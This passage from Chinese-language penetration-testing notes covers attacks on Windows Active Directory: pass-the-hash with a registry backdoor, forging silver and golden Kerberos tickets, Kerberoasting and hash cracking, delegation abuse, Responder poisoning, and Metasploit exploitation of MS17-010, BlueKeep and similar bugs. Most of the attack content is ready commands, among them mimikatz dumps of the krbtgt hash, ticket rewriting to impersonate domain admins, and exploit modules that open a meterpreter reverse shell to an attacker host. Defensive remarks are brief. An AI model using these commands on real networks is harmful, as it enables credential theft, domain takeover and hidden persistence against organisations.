对于远程连接到 Windows Vista+ 计算机的任何非 RID 500 本地管理员帐户，无论是通过 WMI，PSEXEC 还是其他方法(有个例外，那就是通过 RDP 远程)，即使用户是本地管理员，返回的令牌都是已过滤的管理员令牌，但是在域用户被加入到本地管理员组之后，域用户可以使用完全管理员（full administrator）的 Access Token 运行，并且 UAC 不会生效。

实验中域用户 test 能够成功 PTH，而本地用户 test1 pth 无法成功，是因为以 test1 pth 的身份发起的请求被 UAC 拒绝。而 administrator 用户成功的原因同样是因为 UAC。

- **FilterAdministratorToken**

    那如何限制 administrator 的远程登录呢？那就是直接把 FilterAdministratorToken 开启就可以了。路径 ：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\FilterAdministratorToken` 设置为 1,修改之后策略会立即生效，使用 administrator 的远程连接也被拒绝了

- **LocalAccountTokenFilterPolicy**

    那如何禁用 UAC 的限制？如果注册表 `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` 项存在(默认不存在)且配置为 1，将授予来自管理员所有本地成员的远程连接完整的高完整性令牌。这意味着未过滤非 RID 500 帐户连接，并且可以成功传递哈希值！

    默认情况下这个注册表项是不存在的，我们可以用以留作后门，但是有意思的是，在配置 winrm 的时候，也会遇到同样的问题，本地管理员组的非 RID500 账户不能登录，于是有些运维在搜寻了一堆文章后，开启该注册表项是最快捷有效的问题:)。

#### PTH with RDP


---

### PTT

票据传递攻击（PtT）是一种使用 Kerberos 票据代替明文密码或 NTLM 哈希的方法。PtT 最常见的用途可能是使用黄金票据和白银票据，通过 PtT 访问主机相当简单。

**相关文章**
- [浅学Windows认证](https://b404.xyz/2019/07/23/Study-Windows-Authentication/)
- [白银票据与黄金票据探究](http://sh1yan.top/2019/06/03/Discussion-on-Silver-Bill-and-Gold-Bill/)
- [Pass the Hash with Kerberos :: malicious.link](https://malicious.link/post/2018/pass-the-hash-with-kerberos/) - Kerberos 中的 PTH
- [如何通过 SSH 隧道进行域渗透的 PtT 攻击](https://paper.seebug.org/321/)
- [How Attackers Use Kerberos Silver Tickets to Exploit Systems ](https://adsecurity.org/?p=2011)
- [Kerberos Golden Tickets are Now More Golden](https://adsecurity.org/?p=1640)

**相关工具**
- [gentilkiwi/kekeo](https://github.com/gentilkiwi/kekeo)

#### Silver_Tickets

**原理**

白银票据主要是发生在第五步骤上,在 AP_REQ 中的 ST 的组成:
```
k(c,tgs)加密[Session_key],[Server_ntlm_hash(Tiket（K(c,s),Client_Name(domainName\Username),TGT_EndTime）)]
```

在第四步骤时，票据生成服务器（TGS）给我们发了上面的数据，在第五步骤时，我们需要发送下面的数据。
```
K(c,s)加密[Authenticator（[DomainName\Username,ServerName(DomainName\Server)]）],[Tiket（Server_ntlm_hash(Tiket（K(c,s),Client_Name(domainName\Username),TGT_EndTime）)）]
```

从需要发送的数据上看，当拥有 Server Hash 时，我们就可以伪造一个不经过 KDC 认证的一个 Ticket，这个也就是白银票据。

PS : Server Session Key 在未发送 Ticket 之前，服务器是不知道 Server Session Key 是什么的。 所以，一切凭据都来源于 Server Hash。

伪造的 `Client-To-Server Ticket`(也有唤作 ST 和 Service Ticket)被称为白银票据。在不与 KDC 通信情况下，通过获取 Server 端服务账号的 NTLM Hash 值，就能伪造该 Server 端服务的票据。不过在 TGT 中已包含了服务实例的唯一标识(SPN 服务)，白银票据就只能访问指定的服务。

**白银票据特点**

1. 不需要与 KDC 进行交互
2. 需要目标服务的 NTLM Hash
3. 从攻击面来看，伪造白银票据的难度比伪造黄金票据的难度较小，因为一个域中的服务器如果对外的话，非常容易被入侵，并且容易被转储 Server。
4. 从防御角度来看，需要开启 PAC 认证，但这会降低认证效率，增加 DC 的负担，最根本的还是要加固服务器本身对外的服务。
5. 因为需要目标机器的 Hash,并且也不是通过伪造 TGT 申请的,因此只能针对对应服务伪造票据(黄金票据直接伪造的是 TGT,而白金票据伪造的是 TGS 发送的票据,也就是说是单向车程)

**白银票据的攻击流程**

1. 获取服务端计算机的服务账号或者服务端计算机账号的 NTLM 哈希（如通过 kerberoast 获取）
2. 通过 mimikatz 的 kerberos::golden 传递域 SID、目标主机名、服务名称、伪造的用户名、等信息创建白银票据
3. 将票据注入到内存，并访问服务

- **mimikatz**

    mimikatz 的 Silver_Tickets 相关操作见 [mimikatz 笔记](../../工具/Mimikatz.md#Silver_Tickets)

- **ktutil**
    ```bash
    ktutil                      # 使用 ktutil 创建一个 keytab 文件
    ktutil: addent -p uberuser@CORP.SOMEWHATREALNEWS.COM -k 1 -key -e rc4-hmac  # 指定用户和 FQDN 的全大写版本
    Key for uberuser@CORP.SOMEWHATREALNEWS.COM (hex): 88e4d9fabaecf3dec18dd80905521b29  # 输入 rc4-hmac（NTLM）哈希值
    ktutil: wkt /tmp/a.keytab   # 把 keytab 文件写到磁盘上
    ktutil: exit                # 退出
    kinit -V -k -t /tmp/a.keytab -f uberuser@CORP.SOMEWHATREALNEWS.COM  # 使用 keytab 文件创建一个 kerberos ticket
    klist                       # 验证
    ```

**other**

由于白银票据需要目标服务器的 Hash，所以没办法生成对应域内所有服务器的票据，也不能通过 TGT 申请。因此只能针对服务器上的某些服务去伪造，伪造的服务类型列表如下:

| 服务注释                                   |    服务名            |
| -                                         |   -                 |
| WMI 	                                    |   HOST、RPCSS       |
| Powershell Remoteing                      |	HOST、HTTP        |
| WinRM                                     |	HOST、HTTP        |
| Scheduled Tasks                           |	HOST              |
| LDAP 、DCSync                             |	LDAP              |
| Windows File Share (CIFS)                 |	CIFS              |
| Windows Remote ServerAdministration Tools |	RPCSS、LDAP、CIFS |

**白银票据(Silver Tickets)防御**

1. 尽量保证服务器凭证不被窃取
2. 开启 PAC (Privileged Attribute Certificate) 特权属性证书保护功能，PAC 主要是规定服务器将票据发送给 kerberos 服务，由 kerberos 服务验证票据是否有效。

开启方式:将注册表中 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa\Kerberos\Parameters` 中的 ValidateKdcPacSignature 设置为 1。

---

#### Golden_Tickets

**原理**

黄金票据主要是发生在 kerberos 的第三和第四步骤上。

第二步骤时，AS 发给客户端的数据。
```
[Client_ntlm_hash(K(c,tgs))],[Krbtgt_ntlm_hash(k(c,tgs),Client_name(DomainName\Username),TGT_EndTime)]
```
在第三步骤时，客户端拥有两个数据，一个是自己账号 ntlm_hash 加密的 session_key、一个是 TGT 凭证，而这个 TGT 凭证是 kertgt 的 ntlm_hash 加密的信息。

攻击者在获取了 krbtgt 账号的 NTLM Hash 之后，通过发送伪造的 TGT(包括 sessionkey)给 TGS 换取任意服务的Client-To-Server Ticket（ST，服务票据），从而获得域内的任意服务权限。即拥有黄金票据就拥有了域内若干权限。

如第三步骤中需要发送的内容
```
[Session_key(Authenticator（[DomainName\Username,ServerName(DomainName\Server)]）)],[TGT（Krbtgt_ntlm_hash(k(c,tgs),Client_name(DomainName\Username),TGT_EndTime)）]
```

这样，我们就可以访问域内任意一台服务器.

**黄金票据的注意事项**
- Windows 事件日志不区分 TGT 的合法性，即黄金票据的行为隐蔽性高
- 伪造黄金票据的时候，可以离线生成，减少痕迹
- krbtgt 的密码被修改了，生成的黄金票据就会失效
- 未进行 DC 生成 TGT 之前的常规验证,从而绕过了 SmartCard 身份验证要求
- KDC 会验证 TGT 中的时间戳。域策略中修改 Kerberos Policy 中的存活周期，不会影响黄金票据。
- 被冒充的账户重置密码不会影响黄金票据的使用
- 黄金票据的有效期是十年，即使域管更改了密码，也可以对域内进行十年的权限维持（除了域的认证机制改变等因素）
- 可以使用禁用、删除的帐户进行冒充，甚至是在 Active Directory 中不存在的帐户

**常见域内账户 SID**
- 域用户 SID：S-1-5-21 -513
- 域管理员 SID：S-1-5-21 -512
- 架构管理员 SID：S-1-5-21 -518
- 企业管理员 SID：S-1-5-21 -519（只有在域林根域中伪造票据时才有效，用 AD 域林管理员权限添加就使用 `/sids` 参数）
- 组策略创建者所有者 SID：S-1-5-21 -520

**黄金票据特点**

1. 需要与 DC 通信
2. 需要 krbtgt 用户的 hash
3. 从攻击面来看，获取 krbtgt 用户的 hash 后，可以在域中进行持久性的隐藏，并且日志无法溯源，但是需要拿到 DC 权限，使用黄金票据能够在一个域环境中长时间控制整个域。
4. 从防御角度来看，需要经常更新 krbtgt 的密码，才能够使得原有的票据失效。最根本的办法是不允许域管账户登录其他服务器。

**黄金票据的攻击流程**

可以通过使用 mimikatz 的 DCSync 获取伪造黄金票据需要的 krbtgt 账号的 hash。该方法中，mimikatz 会模拟域控，向目标域控请求密码账号，不用登录域控，也不用提取 NTDS.DIT 文件。但是该操作需要域管在或者其他高权限账户下进行。

mimikatz 的 Golden_Tickets 相关操作见 [mimikatz 笔记](../../工具/Mimikatz.md#Golden_Tickets)

**其他途径**
- https://pentestlab.blog/tag/dcsync/

获取 krbtgt 账户就直接跳过获取 krbtgt 哈希的步骤。
1. 使用 meterpreter 的 kiwi 扩展可以导出：`dcsync_ntlm krbtgt`
2. mimikatz 可以在域控的本地安全认证(Local Security Authority)上直接读取 `mimikatz.exe "privilege::debug" "lsadump::lsa /inject /name:krbtgt"`
3. 将域控中的 ntds.dit 复制出来，使用其他工具解析

**白银票据与黄金票据的不同点**

- 访问权限不同
    - Golden Ticket: 伪造 TGT,可以获取任何 Kerberos 服务权限
    - Silver Ticket: 伪造 TGS,只能访问指定的服务

- 加密方式不同
    - Golden Ticket 由 Kerberos 的 Hash 加密
    - Silver Ticket 由服务账号(通常为计算机账户)Hash 加密

- 认证流程不同
    - Golden Ticket 的利用过程需要访问域控,而 Silver Ticket 不需要

---

### PTK

mimikatz 的 PTK 相关操作见 [mimikatz 笔记](../../工具/Mimikatz.md#ptk)

---

### Kerberoast

`Kerberos TGS 票据离线破解`

> 以下内容来自文章 <sup>[[浅学Windows认证](https://b404.xyz/2019/07/23/Study-Windows-Authentication/#kerberoast)]</sup>

服务票据使用服务账户的 NTLM Hash 加密，不用获取运行该服务系统的 shell，任何域用户就可以转储 Hash

在 TGS-REP 过程中，TGS 收到请求后，会将 Client-To-Server Ticket（也称为 ST 票据，Client-To-Server Ticket 由Server 密钥加密）、sessionkey_tgs 返回给 Client。当配置 Kerberos 允许的加密类型是 RC4-HMAC_MD5 时，就可以爆破 Client 端获取的 Client-To-Server Ticket，从而获得服务端服务账户的密码。

破解 Kerberos 服务票据（Client-To-Server Ticket）并重写它们，从而获得目标服务的访问权限的过程叫做 Kerberoast。该过程不需要和目标服务进行交互操作，合法访问活动目录的活动，就可以请求服务票据并导出，进行脱机破解得到服务账户的明文密码。

Kerberoast 攻击涉及五个步骤：
- SPN 扫描
- 请求 Client-To-Server Ticket
- 导出 Client-To-Server Ticket
- 破解 Client-To-Server Ticket
- 重写 Client-To-Server Ticket, 进行内存注入

进行 Kerberoast 攻击时，需要注意以下几点因素：

- 目标 SPN 服务是注册在域用户账户(Users)下
- 域用户账户的权限很高
- 密码最后设置时间
- 密码到期时间
- 最后一次登录时间
    ```
    net user administrator /domain  可查看
    ```

攻击者最感兴趣的是具有高权限用户组的服务帐户如域管理员组的成员。要快速列出高权限用户组的服务帐户的方法是枚举“AdminCount” 属性等于“1”的所有帐户。攻击者只需要向 AD 请求具有 SPN 且 AdminCount = 1 的所有用户帐户。

使用 Active Directory powershell 模块（域控制器一般会安装）中的 Get-ADUser cmdlet：
```powershell
import-module ActiveDirectory
get-aduser -filter {AdminCount -eq 1 -and (servicePrincipalName -ne 0)} -prop * |select name,whencreated,pwdlastset,lastlogon
```

对于没有安装的系统，可以通过以下命令导入 Active Directory 模块:
```powershell
import-module .\Microsoft.ActiveDirectory.Management.dll
```

Microsoft.ActiveDirectory.Management.dll在安装powershell模块Active Directory后会生成，直接在域控上环境就能扣出来

使用 gpedit.msc 将域控上的组策略管理编辑器打开,`计算机配置-->Windows设置-->安全设置-->安全选项-->"网络安全: 配置 Kerberos 允许的加密类型"`，配置 Kerberos 的加密类型为 RC4，并运行 gpupdate 更新策略

- https://github.com/nidem/kerberoast

使用 Kerberoast 中的 GeUserSPNs 进行扫描：
```
setspn.exe -q */*
或
cscript GetUserSPNs.vbs
```

请求指定的 ST 票据:
```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/Srv-DB-0day.0day.org:1433"
```

或请求全部票据：
```
setspn.exe -T 0day.org -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.Post Context[0].Trim() }
```

使用 klist 命令查看当前会话存储的 Kerberos 票据：
```
klist
```

使用 mimikatz 导出内存中的票据(mimikatz 无需提权)：
```
kerberos::list /export
```

使用 https://github.com/nidem/kerberoast 工具破解，得到 sqlsrv 密码为 Admin12345：
```
python tgsrepcrack.py dict.txt 2-40a00000-jack@MSSQLSvc~Srv-DB-0day.0day.org~1433-0DAY.ORG.kirbi
```

Kerberos 的票据是使用 NTLM Hash 进行签名，上述已经破解密码，就可以使用 Kerberoast 脚本重写票据，这样就可以假冒任何域用户或者虚假的账户，也可以将用户提升到域管中：
```
python kerberoast.py -p Admin12345 -r 2-40a00000-jack@MSSQLSvc~Srv-DB-0day.0day.org~1433-0DAY.ORG.kirbi -w test.kirbi -u 500
python kerberoast.py -p Admin12345 -r 2-40a00000-jack@MSSQLSvc~Srv-DB-0day.0day.org~1433-0DAY.ORG.kirbi -w test.kirbi -g 512
```

```
kerberos::ptt test.kirbi
```
攻击者知道一台服务器(或多台服务器)的服务账户和密码，就可以通过此方法将其域用户权限提升到域管。

---

### Kerberoasting

> 以下内容来自文章 <sup>[[浅学Windows认证](https://b404.xyz/2019/07/23/Study-Windows-Authentication/#kerberoasting)]</sup>

kerberoast 攻击，利用 mimikatz 从内存中导出票据破解。而 Kerberoasting 攻击可以不使用 mimikatz，且普通用户权限就可以实现。

- https://github.com/GhostPack/Rubeus
    ```
    Rubeus.exe kerberoast
    ```

也可以在域内一台主机上导入 https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1 ，以普通用户权限执行：
```powershell
Import-Module .\Invoke-Kerberoast.ps1
Invoke-Kerberoast -OutputFormat Hashcat | fl
```

只提取出hash的命令：
```powershell
Invoke-Kerberoast -OutputFormat Hashcat | Select hash | ConvertTo-CSV -NoTypeInformation
```

使用 impacket 中的 GetUserSPN.py 也可以获取，不过需要域用户名和密码：
```powershell
GetUserSPNs.exe -request -
c-ip 192.168.3.142 0day.org/sqlsvr
```
也可以使用 https://github.com/blacklanternsecurity/Convert-Invoke-Kerberoast

使用hashcat指定字典解密：
```bash
hashcat -m 13100 hash.txt dict.txt -o /opt/dict/dist.list --force

//使用hashcat破解
hashcat64.exe -m 13100 -w 3 -a 3 -m 13100 hash -w 3 -a 3 ?l?l?l?l?l?l?l

//使用john破解

./kirbi2john.py /root/empire-dev/downloads/BDW3E2G2ZRKCUS3B/*.kirbi > /tmp/johnkirb.txt

./john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

---

### 委派

#### 查找域中委派主机或账户

> 以下内容来自文章 <sup>[[浅学Windows认证](https://b404.xyz/2019/07/23/Study-Windows-Authentication/#%E6%9F%A5%E6%89%BE%E5%9F%9F%E4%B8%AD%E5%A7%94%E6%B4%BE%E4%B8%BB%E6%9C%BA%E6%88%96%E8%B4%A6%E6%88%B7)]</sup>

当服务账号被设置为非约束性委派时，其 `userAccountControl` 属性会包含为 TRUSTED_FOR_DELEGATION;当被设置为约束性委派时，其 userAccountControl 属性包含 TRUSTED_TO_AUTH_FOR_DELEGATION（T2A4D），且 msDS-AllowedToDelegateTo 属性会被设置为哪些协议:

加载 powerview，查询无约束委派账户：
```powershell
Get-NetUser -Unconstrained -Domain 0day.org

//另外一个版本的Powerview
Get-DomainUser -Properties useraccountcontrol,msds-allowedtodelegateto| fl
```

加载 powerview，查询无约束委派机器：
```powershell
Get-NetComputer -Unconstrained -Domain 0day.org

//另外一个版本的Powerview
Get-DomainComputer -Unconstrained -Properties distinguishedname,useraccountcontrol -Verbose| ft -a
```

加载 powerview，枚举域内所有的服务账号，查看哪些账号被设置了委派，以及是何种类型的委派设置：
```powershell
Get-NetUser -TrustedToAuth -Domain 0day.org

Get-DomainUser -TrustedToAuth -Properties distinguishedname,useraccountcontrol,msds-allowedtodelegateto| fl

Get-DomainComputer -TrustedToAuth -Domain 0day.org
```
当一个用户具备对某个服务账号的 SeEnableDelegationPrivilege 权限时，表示可以更改服务账号的委派设置，一般情况下只有域管理员才具备这个权限。因此也可以利用 SeEnableDelegationPrivilege 属性，制作极其隐蔽的后门。

**案例**

非约束委派攻击：当域控管理员访问 A 服务时，A 服务就会将访问者的 TGT 保存在内存中（此时攻击者无法访问域控），但是攻击者通过 mimikatz 的 sekurlsa::tickets /export 命令导出内存中域控管理员访问 A 服务的票据，将其注入到内存，这时候就可以访问域控。



```
kekeo.exe "tgt::ask /user:sqlsvr /domain:0day.org /password:Admin12345" exit

kekeo.exe "tgs::s4u /tgt:TGT_sqlsvr@0DAY.ORG_krbtgt~0day.org@0DAY.ORG.kirbi /user:administrator@0day.org /service:/service:service_to_access" exit


Tgs::s4u /tgt:service_account_tgt_file /user:administrator@testlab.com /service:service_to_access
```

## 毒化LLMNR和NBT-NS请求

**相关文章**
- [Windows环境中使用Responder获取NTLMv2哈希并利用](https://www.freebuf.com/articles/system/194549.html)
- [攻防最前线：一封邮件就能捕获你的口令散列值](https://www.secrss.com/articles/8143)
- [Steal_NTLMv2_hash_using_File_Download_vulnerability](https://github.com/incredibleindishell/Windows-AD-environment-related/blob/master/Steal_NTLMv2_hash_using_File_Download_vulnerability/README.md) - 任意文件下载漏洞配合 Responder 毒化

**工具**
- [SpiderLabs/Responder](https://github.com/SpiderLabs/Responder)
    ```
    python Responder.py -I eth0
    ```
    在 Windows 机器上 ：打开文件浏览器，连接 file:////<linuxIPaddress>/test.htlm (或者任意文件名)；
    ```
    cd /usr/share/responder/logs
    ```

    或者配合 mssql
    ```
    xp_dirtree "\\<linuxIPaddress>\aaa.com"
    ```

---

# 漏洞利用

**资源**
- [SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits) - Windows 平台提权漏洞集合
- [WindowsExploits/Exploits](https://github.com/WindowsExploits/Exploits)- Windows Exploits

---

## 提权

关于 windows 更多提权内容,见笔记 [权限提升](./后渗透/权限提升.md#win) windows 提权部分

---

## 远程

**MS08-067 & CVE-2008-4250**
- MSF 模块
    ```bash
    use exploit/windows/smb/ms08_067_netapi
    set payload windows/x64/meterpreter/reverse_tcp
    set target 0
    ```

**MS12-020 & CVE-2012-0002**
- MSF 模块
    ```bash
    use auxiliary/scanner/rdp/ms12_020_check
    use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
    ```

**MS14-066 & CVE-2014-6321**
- POC | Payload | exp
    - [anexia-it/winshock-test](https://github.com/anexia-it/winshock-test)

**MS15-034 & CVE-2015-1635**
- POC | Payload | exp
    - [MS15-034 Checker](https://pastebin.com/ypURDPc4)

- 相关文章
    - [MS15-034/CVE-2015-1635 HTTP远程代码执行漏洞分析](http://blogs.360.cn/post/cve_2015_6135_http_rce_analysis.html)

- MSF 模块
    ```bash
    use auxiliary/scanner/http/ms15_034_http_sys_memory_dump    # 读取服务器内存数据
    use auxiliary/dos/http/ms15_034_ulonglongadd    # 进行 dos 攻击
    ```

**CVE-2017-0143 - CVE-2017-0148 && MS17-010**
- MSF 模块
    ```bash
    # 发现,检测
    use auxiliary/scanner/smb/smb_ms17_010
    set rhosts <ip>
    run

    # 使用 payload 连上去
    use exploit/windows/smb/ms17_010_eternalblue
    set payload windows/x64/meterpreter/reverse_tcp
    set lhost <ip>      # 设置回弹地址
    set rhosts <ip>
    run

    # msf 下加载 mimikatz 模块
    load mimikatz
    kerberos
    ```

- 修复工具
    - ["永恒之蓝"勒索蠕虫漏洞修复工具](https://www.qianxin.com/other/wannacryfix)

**bluekeep & CVE-2019-0708**
- 相关文章
    - [RDP Stands for "Really DO Patch!" – Understanding the Wormable RDP Vulnerability CVE-2019-0708](https://securingtomorrow.mcafee.com/other-blogs/mcafee-labs/rdp-stands-for-really-do-patch-understanding-the-wormable-rdp-vulnerability-cve-2019-0708/)
    - [worawit/CVE-2019-0708](https://github.com/worawit/CVE-2019-0708/blob/master/NOTE.md)

- POC | Payload | exp
    - [zerosum0x0/CVE-2019-0708](https://github.com/zerosum0x0/CVE-2019-0708)
    - [robertdavidgraham/rdpscan](https://github.com/robertdavidgraham/rdpscan)
    - [Ekultek/BlueKeep](https://github.com/Ekultek/BlueKeep)
    - [mekhalleh/cve-2019-0708](https://github.com/mekhalleh/cve-2019-0708) (实测、蓝屏)
    - [Cyb0r9/ispy](https://github.com/Cyb0r9/ispy)
    - [k8gege/CVE-2019-0708](https://github.com/k8gege/CVE-2019-0708) - 批量检测工具

- 修复工具
    - ["CVE-2019-0708"漏洞检测修复工具](https://www.qianxin.com/other/CVE-2019-0708)
    - https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2019-0708

- MSF 模块
    ```bash
    # 发现,检测
    use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
    set rhosts <ip>
    run
    ```
    ```bash
    # 利用
    use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
    set target <1-7>
    set rhosts <ip>
    show options
    exploit
    shell
    python
    ```

**CVE-2020-0796 微软 SMBv3 协议远程代码执行漏洞**
- 简介

    2020年3月11日，思科 Talos 发布了一个威胁等级被标记为 Critical 的 SMB 服务远程代码执行漏洞（CVE-2020-0796）综述，攻击者可以利用此漏洞远程无需用户验证通过发送构造特殊的恶意数据导致在目标系统上执行恶意代码，从而获取机器的完全控制。

    本次漏洞存在于微软 SMBv3.0 协议中，该漏洞是由 SMBv3 处理恶意压缩数据包时进入错误流程造成的。攻击者利用该漏洞无须权限即可实现远程代码执行，受黑客攻击的目标系统只需开机在线即可能被入侵。

- 相关文章
    - [Exploiting SMBGhost (CVE-2020-0796) for a Local Privilege Escalation: Writeup + POC](https://blog.zecops.com/vulnerabilities/exploiting-smbghost-cve-2020-0796-for-a-local-privilege-escalation-writeup-and-poc/)

- POC | Payload | exp
    - [ollypwn/SMBGhost](https://github.com/ollypwn/SMBGhost)
    - [chompie1337/SMBGhost_RCE_PoC](https://github.com/chompie1337/SMBGhost_RCE_PoC) - 远程利用代码
    - [eerykitty/CVE-2020-0796-PoC](https://github.com/eerykitty/CVE-2020-0796-PoC) - 蓝屏 POC
    - [danigargu/CVE-2020-0796](https://github.com/danigargu/CVE-2020-0796) - 本地提权 POC

- 修复工具
    - https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-0796

**CVE-2020-1350**
- 相关文章
    - [SIGRed - Resolving Your Way into Domain Admin: Exploiting a 17 Year-old Bug in Windows DNS Servers](https://research.checkpoint.com/2020/resolving-your-way-into-domain-admin-exploiting-a-17-year-old-bug-in-windows-dns-servers/)
    - [CVE-2020-1350漏洞深入剖析](https://bbs.pediy.com/thread-260712.htm?from=groupmessage)

- POC | Payload | exp
    - [maxpl0it/CVE-2020-1350-DoS](https://github.com/maxpl0it/CVE-2020-1350-DoS)

---

## 其他

**CVE-2018-8420 Msxml 解析器的远程代码执行漏洞**
- POC | Payload | exp
    - [Lz1y/CVE-2018-8420](https://github.com/Lz1y/CVE-2018-8420)

**CVE-2020-0601**
- POC | Payload | exp
    - [ollypwn/CVE-2020-0601](https://github.com/ollypwn/CVE-2020-0601)
    - [kudelskisecurity/chainoffools](https://github.com/kudelskisecurity/chainoffools)
